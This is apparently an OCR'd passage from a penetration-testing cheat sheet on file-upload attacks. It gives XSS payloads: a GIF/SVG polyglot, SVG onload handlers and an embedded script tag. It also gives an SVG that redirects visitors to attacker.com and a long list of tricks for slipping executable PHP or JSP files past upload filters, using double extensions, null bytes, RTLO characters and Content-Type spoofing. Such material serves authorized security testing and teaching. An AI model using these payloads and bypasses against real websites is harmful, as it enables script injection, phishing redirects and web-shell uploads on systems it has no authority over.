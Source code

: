             ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```
            [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-uploading-files-svg](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-uploading-files-svg)<br></br>
            [https://brutelogic.com.br/blog/file-upload-xss/](https://brutelogic.com.br/blog/file-upload-xss/)<br></br>
        
        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```
        - - - -
	### Upload tricks

	- Use double extensions : `.jpg.php, .png.php5`
	- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
	- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
	- Null byte (works well against `pathinfo()`)
	    * `.php%00.gif`
	    * `.php\x00.gif`
	    * `.php%00.png`
	    * `.php\x00.png`
	    * `.php%00.jpg`
	    * `.php\x00.jpg`
	- Special characters
	    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
	    * Whitespace and new line characters
		* `file.php%20`
		* `file.php%0d%0a.jpg`
		* `file.php%0a`
	    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
	    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
	    * Multiple special characters: `file.jsp/././././.`
	- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
	    * `Content-Type : image/gif`
